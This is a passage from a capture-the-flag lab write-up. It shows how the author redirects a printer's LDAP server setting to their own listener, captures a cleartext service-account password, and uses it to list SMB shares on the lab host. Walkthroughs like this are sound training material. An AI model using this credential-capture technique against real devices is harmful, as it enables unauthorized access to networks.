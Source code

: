 ![](images/return2.png)

<br>

The **Fax** and **Troubleshooting** links don't actually lead anywhere.

The page source code doesn't show anything useful.

There are no cookies set.

I test for **SQLi** with **sqlmap** and don't find anything.

I decide to see if I can get the printer to connect back to me since I'm able to enter the IP address for it. I start a listener on my system using port 389 and then add my IP to the server address and click update.

```
connect to [<MY IP>] from (UNKNOWN) [10.10.11.108] 52374
0*`%return\svc-printer�
                       1edFg43012!!
```

It works, and that certainly looks to me like it's a clear text password for user **svc-printer**.

<br>

## SMB Digging

I first do a list with no login and it doesn't show anything. I then try to use the **svc-printer** id since it's the only thing we have at the moment and it does have some available shares:

`smbclient -L 10.10.11.108 -U svc-printer`

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share
```

